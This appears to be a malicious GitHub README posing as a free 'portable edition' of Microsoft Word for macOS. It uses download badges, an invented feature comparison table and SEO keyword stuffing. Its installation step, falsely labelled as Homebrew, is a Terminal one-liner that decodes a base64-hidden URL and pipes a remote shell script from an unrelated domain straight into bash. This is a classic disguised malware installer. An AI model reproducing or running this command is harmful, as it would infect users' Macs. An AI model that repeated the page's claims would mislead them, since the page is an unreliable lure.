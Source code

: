 # Microsoft Word for macOS – Portable Edition

📂 **Unzip the archive to a separate folder and run the .app file.**

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
</p>

🛠️ Installation (macOS Terminal)
To install the application via Terminal on macOS, follow these steps:

Option 1: Using Homebrew (recommended)
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9uZW9naXQvaW5zdGFsbC5zaA== | base64 -d))"

---
![Microsoft Word on Mac – UI](https://cdn.shopify.com/s/files/1/0329/9865/3996/t/5/assets/how_to_access_microsoft_word_on_mac-n4cxGv.True?v=1707900370)

![How to Get Word for Free on macOS](https://images.macworld.co.uk/cmsdata/features/3777812/how-to-get-microsoft-word-for-free-on-mac-online.png)

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
</p>

Microsoft Word for macOS is the industry-standard document editor, now optimized for portable use. Edit and format text, collaborate with others, and export to PDF — all in a clean, familiar interface made for Apple Silicon and Intel Macs.

---

## 🎯 Key Features

- Professional text editing with rich formatting  
- Real-time collaboration via OneDrive  
- Seamless cloud sync and auto-save  
- Wide variety of document templates  
- Smart spelling and grammar check  
- Dark Mode support for macOS  
- Export to PDF or other formats  
- Track changes and comments  
- Built-in citation and bibliography tools  
- Voice dictation and accessibility support  
- Supports .docx, .doc, .rtf, .txt, and more  
- Offline editing without limitations  
- Compatible with Microsoft 365 accounts  
- Native support for Apple Silicon (M1/M2/M3)  
- Integrates with Excel and PowerPoint  
- Drag-and-drop image and table tools  
- Automatic document recovery  
- Ribbon interface with customizable shortcuts  
- Supports printing and layout preview  
- Optimized for macOS Ventura and later  

| Feature / Editor                         | **Microsoft Word**    | Apple Pages   | Google Docs      | LibreOffice Writer | Ulysses / Bear |
| ---------------------------------------- | --------------------- | ------------- | ---------------- | ------------------ | -------------- |
| ✅ **Offline Editing**                    | ✔️ Full support       | ✔️            | ❌                | ✔️                 | ✔️             |
| 💾 **Export to PDF, DOCX, RTF, HTML**    | ✔️ All formats        | ✔️            | ⚠️ Limited       | ✔️                 | ⚠️ Markdown    |
| 🤝 **Real-Time Collaboration**           | ✔️ Via OneDrive       | ✔️ iCloud     | ✔️ Best-in-class | ⚠️ Limited         | ❌              |
| 🧠 **AI-Powered Suggestions**            | ✔️ Grammarly & Editor | ❌             | ✔️ Smart compose | ❌                  | ❌              |
| 🎨 **Advanced Formatting / Styles**      | ✔️ Professional       | ⚠️ Basic      | ⚠️ Basic         | ✔️ Decent          | ❌              |
| 📚 **Templates Library**                 | ✔️ Extensive          | ⚠️ Few        | ⚠️ Few           | ✔️ Basic           | ❌              |
| 🔒 **Document Protection / Track Edits** | ✔️ Full control       | ⚠️ Limited    | ⚠️ Partial       | ✔️ Basic           | ❌              |
| 🖨️ **Print Preview / Layout Mode**      | ✔️ WYSIWYG            | ✔️            | ❌                | ✔️                 | ❌              |
| 🧩 **Cross-Platform Compatibility**      | ✔️ macOS/Windows/iOS  | ✔️ macOS/iOS  | ✔️ Web only      | ✔️ All platforms   | macOS/iOS only |
| 🧬 **Apple Silicon Optimization**        | ✔️ Native support     | ✔️            | ✔️ (via browser) | ✔️                 | ✔️             |
| 🧑‍🎓 **Ideal for Education & Business** | ✔️ Top-tier choice    | ⚠️ Casual use | ✔️ Good online   | ⚠️ Basic           | ❌              |


---

## 💻 System Requirements

- **OS:** macOS 11.0 Big Sur or newer  
- **CPU:** Intel Core i5 / Apple M1 or better  
- **RAM:** 4 GB minimum  
- **Disk Space:** 2 GB available  
- **Internet:** Only for cloud sync or activation (optional)  
- **Note:** No Microsoft 365 subscription required for offline mode  

<p align="center">
  <a href="https://microsoft-word-macos-portable.github.io/.github" target="_blank">
    <img src="https://img.shields.io/badge/Download%20for%20macOS-Click%20to%20Start-007AFF?style=for-the-badge&logo=apple&logoColor=white">
  </a>
</p>

---

🔍 SEO Keywords
Microsoft Word macOS, Word portable Mac, download Word for Mac, Word app Apple Silicon, Word M1 M2 Mac, offline Word Mac, Word no subscription, Word for students Mac, document editor macOS, best Word processor Mac, Word export to PDF macOS, .docx editor macOS, Word compatible with Pages, Microsoft Office Mac, Word without Microsoft 365, Word dark mode Mac, smart formatting Mac Word, spellcheck macOS editor, grammar correction Mac app, Word free Mac alternative, portable Word macOS Ventura, Word Apple M3 support, edit documents offline Mac, standalone Word Mac, Word collaboration Mac, professional writing Mac, Word academic tools macOS
